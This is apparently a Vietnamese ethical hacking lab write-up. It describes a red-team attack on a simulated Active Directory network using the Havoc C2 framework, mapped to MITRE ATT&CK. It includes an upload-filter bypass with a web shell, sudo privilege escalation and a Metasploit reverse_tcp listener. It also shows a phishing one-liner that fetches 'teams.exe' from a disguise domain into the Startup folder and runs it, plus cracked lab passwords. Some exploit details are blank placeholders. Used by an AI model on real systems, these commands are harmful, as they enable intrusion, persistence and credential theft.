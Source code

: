 # **Project ethical hacking**
# **Topic: tấn công mạng**
## **1. Thông tin về project**
Xây dụng mô hình và kịch bản tấn công hệ thống mạng sử dụng mô hình C2 havoc. Mô tả các kỹ thuật tấn công theo MITRE ATT@CK.
- Xây dựng mô hình chung cho hệ thống và xây dựng hoàn chỉnh các thành phần trong mạng như AD, Web, Client...
- Xây dựng mô hình C2, phân tích cụ thể các thành phần sử dụng trong C2.
- Xây dựng các kịch bản tấn công và phân tích các kỹ thuật sử dụng trong đó.

Hệ thống lab được build bằng VMware workstation pro.

## **2. Phân tích quá trình tấn công**
### **2.1 Kịch bản tấn công**
AD: `phongbat.com`

WEb: 'home.phongbat.com'

Hệ thống nội bộ gồm 4 máy:
- `RootDC (Active Directory)`: Window Server 2019
- `User1 (WS1)`: Window 10
- `User2 (WS2)`: Window 10
- `Web (Web01)`: Ubuntu, đóng vai trò là WebServer giao tiếp với External Network

- Máy Attacker sử dụng `Kali Linux` dùng để xâm nhập vào hệ thống nội bộ ở trên.

Giới thiệu về `Havoc Framework`: một framework mã nguồn mở cho phép cài đặt và vận hành C2 server một cách dễ dàng, tích hợp nhiều tính năng giúp cho việc quản lí, duy trì trong hệ thống mạng đã khai thác, được sử dụng như một giải pháp thay thế cho `Cobalt Strike` và `Brute Ratel` (post-exploitation C2 framework). C2 framework cung cấp cho các threat actor khả năng thả beacon trên các mạng bị xâm chiếm để vận chuyển các payload độc hại. Trong những năm qua, `Cobalt Strike` và `Brute Ratel` đã trở thành công cụ phổ biến để các threat actor cung cấp payload độc hại cho những nạn nhân được nhắm tới. Điều này đã khiến các nhà phát triển và tổ chức C2 sử dụng `Cobalt Strike` và `Brute Ratel` phải cảnh giác hơn với phần mềm độc hại tiềm ẩn bên trong repository của họ. Với `Havoc`, các threat actor được cung cấp một lựa chọn mới trong việc nhắm mục tiêu và khai thác hệ thống mạng.

Về hệ thống C2 Server, gồm 3 thành phần chính:
- `Havoc Server`: Máy chủ cốt lõi của framework, dùng để khởi động listener, tương tác với các agent và xử lí các command do client yêu cầu.
- `Havoc Client`: Giao diện chính của framework, giúp cho các thành viên redteam liên lạc, tương tác với các máy bị xâm chiếm.
- `Havoc Agent`: payload được khởi chạy bởi máy tính mục tiêu, nhận lệnh và thực thi lệnh do server yêu cầu.

Attacker có thể xâm nhập vào hệ thống thông qua 2 cách tiếp cận: exploit từ Web01 đi vào, tải và thực thi file agent, sau đó gửi malware phishing cho WS01, từ đó máy WS01 này sẽ tải agent và thực thi để thêm vào C2 Server, duy trì sự hiện diện trong hệ thống.

### **2.2 Phân tích cụ thể**
#### **2.2.1. Reconnaissance (T1595.003 - Active Scanning).**
Truy cập vào trang chủ chính `home.phongbat.com' ta chỉ thấy được các giao diện thông thường, test qua vài lỗ hổng trong OWASP nhưng không có gì bất thường.

Tiến hành scandir xem có thư mục nào ẩn không ta tìm được một vài directory ẩn: `/robots.txt`,`/admin`.

Ta tìm được một trang web cho phép upload ảnh online.

Tấn công upload: Trang upload chỉ cho phép .jpg. Tuy nhiên, bypass bằng cách tải lên shell.php.jpg và chiếm quyền Web Server.

#### **2.2.1. Initial Access .**
*Tìm kiếm thông tin:

Để xác định được hệ thống gồm bao nhiêu máy, ta sẽ tiến hành scan mạng nội bộ. Nhưng do vấn đề phát hiện và ghi log của máy, không sử dụng nmap mà ta sẽ tạo một file bash script có tên là check.sh và ping mạng `12.3.3.0/24`.

Ta tìm được 3 ip sau: `12.3.3.2`, `12.3.3.27` và `12.3.3.99` => hệ thống gồm 4 máy bao gồm web.
Trong quá trình reconnaissance máy web, tìm thấy một file `config` chứa thông tin của user khác ở đường dẫn `/var/www/config`.

*Leo thang đặc quyền:

Ta dùng `su` để chuyển sang user này xem tìm kiếm được thông tin gì không.

Bất ngờ, user này được cấu hình chạy nano với sudo vì vậy ta dễ dàng lấy được quyền root, truy cập thư mục `/root`, ta tìm được credential của ip `12.3.3.10`

#### **2.2.3. Lateral Movement (T1021.001, T1570, T1534)**
*Cắm agent vào client1:
Tiếp theo ta sẽ sử dụng Havoc Framework để cắm agent vào máy `clien1` dễ dàng truy cập và duy trì sự hiện diện.

Chúng ta sẽ tạo một agent tên là teams.exe và gửi nó qua cho máy darlene bằng cách host một server có domain ms-updates.online chứa file này, sau đó kích hoạt để HavocClient hiển thị các thông tin của máy này, bao gồm cả shell, thư mục, đường dẫn, ...

Vậy là ta đã thành công cắm C2 Server vào máy `client1`. Ta cần phải thêm file `teams.exe` này vào startup của máy để khi máy được khởi động, HavocCilent sẽ tự động kết nối. Chúng ta sẽ cd vào đường dẫn sau và tải file agent về, khi đó mục startup của máy sẽ có tiến trình agent này, khi máy khởi động thì tiến trình này sẽ tự động kích hoạt. Path: `C:\Users\clent1\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`.

Việc đầu tiên cần làm là kiểm tra máy có mở port 3389 hay không. Và sau khi sử dụng lệnh shell `netstat -aon`, kết quả là máy có mở.
*Dump credentials:
Tiếp theo dump credentials của máy tryell, mục đích của việc này là để kiếm xem có các file password mà các user này để ở đâu đó trong máy không. Tại bước này, ta sẽ sử dụng `Metasploit` để tạo payload có tên là `ms-teams.exe` và lấy được `Meterpreter` của máy client1.

Tiếp theo chạy msfconsole để tạo listener.
```
Msf6> use exploit/multi/handler
Msf6> set payload windows/meterpreter/reverse_tcp
Msf6> set LHOST 172.16.17.20
Msf6> set LPORT 1234
Msf6> exploit
```

Sau đó, vận chuyển payload `ms-teams.exe` vừa tạo thông qua shell của HavocClient.

Sử dụng công cụ hash decryptor online, ta tìm được các account như sau:
```
darlene:WinClient321
dxl:P@ssword
tryell:WinClient123
vagrant:vagrant
```

RDP từng user ta tìm được list email của nhân viên trong document.
Phishing:
Vì tìm được các list email của nhân viên, ta sẽ tiến hành sử dụng kĩ thuật phishing, gửi malware cho các user mà ta thu thập được.

Để có thể phishing thì ta cần chuẩn bị một file malware. Ở đây chúng tôi sẽ sử dụng lỗi của " đang trong quá trình suy nghĩ" cho phép kẻ tấn công thực thi mã từ xa, với định danh `1`. Sử dụng tool tạo  được lấy từ (https://github.com/). Khởi tạo xong file và đặt tên là ``, ta tiến hành gửi file  này cho user 'clent2' thông qua mail.

Script: ``` cd C:\Users\tryell\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup & curl ms-updates.online/teams.exe -o teams.exe & teams.exe ```  

Giả sử user 'client2' đã tải về. Khi user này mở ra và bấm vào file, script sẽ được chạy, cd vào đường dẫn chứa thư mục startup, tải file agent có tên `teams.exe` về máy và tự khởi chạy.

Kiểm tra ip của máy, ta biết được ip là `12.3.3.99`. Vậy máy còn lại có ip `12.3.3.2` chính là AD.

#### **2.2.4. Command and Control (T1071.001, T1570) và Exfiltration (T1041 - Exfiltration Over C2 Channel)**
Tạo backdoor:
Làm tương tự với máy client 1, ta vận chuyển payload và dump credentials của máy.

Vậy ta đã thu thập đủ thông tin của máy AD:
- IP: `12.3.3.2`
- Username: `phongbat\mrrobot`
- Password: `P@ssword`
Ta thử sử dụng credential này bằng rdp.

Sau đó ta sẽ tạo backdoor bằng havoc framework và Tạo Golden Ticket để duy trì quyền truy cập lâu dài.
## **3. Tổng kết**
Bảng MITRE ATT&CK:

|Tên kĩ thuật|ID|Phương thức|
|---|---|---|
|Reconnaissance|T1595.003|Active Scanning – Wordlist Scanning|
|Initial Access|T1659|Content Injection|
||T1078|Valid Account|
|Lateral Movement|T1021.001|Remote Service – Remote Desktop Protocol|
||T1534|Internal Spearphishing|
||T1570|Lateral Tools Transfer|
|Command and Control|T1659|Content Injection|
|Exfiltration|T1041|Exfiltration Over C2 Channel|

Tài liệu tham khảo:

[1] https://github.com/Ashifcoder/exposelab

[2] https://attack.mitre.org/matrices/enterprise/

[3] https://github.com/HavocFramework/Havoc

[4] https://blog.viettelcybersecurity.com/canh-bao-chien-dich-tan-cong-cua-nhom-apt-darkpink-nham-den-vao-nuoc-dong-nam-a/
